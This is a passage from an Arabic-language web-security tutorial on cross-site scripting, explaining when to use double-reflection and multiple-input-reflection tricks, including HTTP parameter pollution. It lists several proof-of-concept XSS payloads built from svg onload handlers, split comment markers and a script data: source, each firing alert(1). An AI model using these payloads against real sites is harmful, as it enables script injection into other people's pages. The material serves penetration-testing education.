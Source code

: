 ```html
<script>var a = "abc";</script>
<div>abc</div>
```

هنا حصل **Double Reflection**، واللي نقدر نستغله في **خداع البنية** علشان كودك يبقى قابل للتنفيذ.

#### ✨ تستخدمها لما:

- تلاحظ أن **مدخلك بيتكرر ثلاث مرات أو أكتر**.
    
- أو بيتكرر داخل **عنصر HTML + JavaScript معًا**.
    
- أو مرة داخل `"<script>"` ومرة داخل HTML زي `<div>` أو `<img>`.
    

#### البايلود اللي في الشرح

```html
*/alert(1)">'onload="/*<svg/1='
`-alert(1)">'onload="`<svg/1='
*/</script>'>alert(1)/*<script/1='

```

---



## 1️⃣6️⃣ متى تستخدم **حقن انعكاس متعدد المدخلات (Multiple Input Reflections)**؟
{ #XSS_other_idea }
#### الشرح :

![2025-06-22 02-53-05.mkv](attachments/2025-06-22 02-53-05.mkv)

#### ✨ تستخدمها لما:

- تلاقي إن **عدة باراميترز من URL بتنطبع في الصفحة**.
    
- أو تلاقي إنه ممكن تستخدم HPP (HTTP Parameter Pollution) زي:
    
    ```
    ?p=x&p=y&p=z
    ```
    
#### البايلود اللي في الشرح

```javascript
p=<svg/1='&q='onload=alert(1)>
p=<svg 1='&q='onload='/*&r=*/alert(1)'>
q=<script/&q=/src=data:&q=alert(1)>![2025-06-22 02-53-05.mkv](attachments/2025-06-22 02-53-05.mkv)
```

---

